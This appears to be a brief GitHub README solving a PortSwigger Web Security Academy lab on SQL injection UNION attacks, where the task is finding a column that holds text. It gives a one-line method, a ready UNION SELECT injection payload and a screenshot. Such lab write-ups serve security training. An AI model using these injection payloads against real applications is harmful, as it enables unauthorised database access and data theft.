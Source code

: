 # Lab: SQL injection UNION attack, finding a column containing text

**Link**: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

**Solution**: Solution: just select by colmnName with mutiple join nulls until find it

add: **' union select null,  'UDvz7G', null -- //UDvz7G is random value by the lap**

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/SQL%20Injection/Lab%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text/image1.png" width="500" hight="500"/>
</p>
